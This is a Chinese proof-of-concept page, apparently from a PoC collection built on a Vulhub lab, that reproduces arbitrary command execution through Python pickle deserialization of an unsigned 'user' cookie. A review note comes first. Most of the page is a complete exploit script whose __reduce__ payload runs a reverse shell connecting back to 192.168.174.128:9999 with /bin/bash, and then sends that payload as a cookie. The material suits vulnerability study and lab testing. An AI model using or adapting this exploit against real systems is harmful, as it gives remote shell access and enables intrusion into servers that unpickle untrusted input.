

## 核对与使用边界

本文已按保存的全文审阅记录进行文字校订；本轮仅静态核对，未运行 PoC、请求目标或逐图验证。

适用条件与版本记录（来源主张，未列为明确更正的部分仍待权威资料核对）：未固定Python/Pickle协议，核心前提是可控未认证cookie被loads

代码与实验材料：完整__reduce__脚本，硬编码目标/回连相同IP及Python可执行名，副作用是反连

来源证据范围：Rickgray、Leavesongs研究及Vulhub背景，来源较好

- **凭据与会话边界（1）**：需区分应用输入信任与库漏洞；依据：cookie未经可信签名直接反序列化，pickle设计不用于不可信输入。抓包中的会话不能视为未认证访问证明。需重新取得授权测试会话，不能复用文中值。

- **事实待核（2）**：实验代码和修复缺失；依据：服务端仅伪代码pickle_decode，未给实际应用/安全替代；客户端Python3与目标python版本差异未交代。该项尚不能从转载本身确定外部事实；下文相应编号、版本或修复说法只作为来源记录，不能据此判定部署受影响或已修复。明确更正另列于本节。

历史原文标识：下文原技术材料按来源保留；仅本节明确确认的更正替代相应旧说法，标为待核的观察仍不是事实确认。

# Python unpickle 造成任意命令执行漏洞

## 漏洞描述

参考阅读：

- http://rickgray.me/2015/09/12/django-command-execution-analysis.html
- https://www.leavesongs.com/PENETRATION/zhangyue-python-web-code-execute.html

## 环境搭建

Vulhub 编译及运行测试环境：

```
docker-compose build
docker-compose up -d
```

访问 `http://your-ip:8000`，显示 `Hello {username}!`。

## 漏洞复现

username 是取 Cookie 变量 user，对其进行 base64 解码 + 反序列化后还原的对象中的“username”变量，默认为“Guest”，伪代码：`pickle_decode(base64_decode(cookie['user']))['username'] or 'Guest'`。

调用 exp.py，监听 9999 端口，反弹 shell：

```python
#!/usr/bin/env python3
import requests
import pickle
import os
import base64


class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.174.128",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'"""
        return (os.system, (s,))


e = exp()
s = pickle.dumps(e)

response = requests.get("http://192.168.174.128:8000/", cookies=dict(
    user=base64.b64encode(s).decode()
))
print(response.content)
```




---

> 来源：Threekiii/Awesome-POC
